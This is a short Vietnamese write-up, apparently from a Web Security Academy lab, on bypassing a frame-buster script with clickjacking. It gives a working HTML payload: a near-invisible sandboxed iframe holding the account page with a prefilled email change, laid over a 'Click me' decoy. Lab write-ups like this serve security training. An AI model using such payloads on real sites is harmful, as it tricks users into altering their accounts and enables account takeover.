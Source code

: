 Context: frame buster script để chặn nhúng iframe

Nếu dùng payload cũ ta nhận được:\
![alt text](image-3.png)

Với payload: 
```html
<style>
    iframe {
        position:relative;
        width:1000px;
        height: 700px;
        opacity: 0.001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:470px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ad5006f030e842f8067761400e60079.web-security-academy.net/my-account?email=abcde@gmail.net" sandbox="allow-forms"></iframe>
```
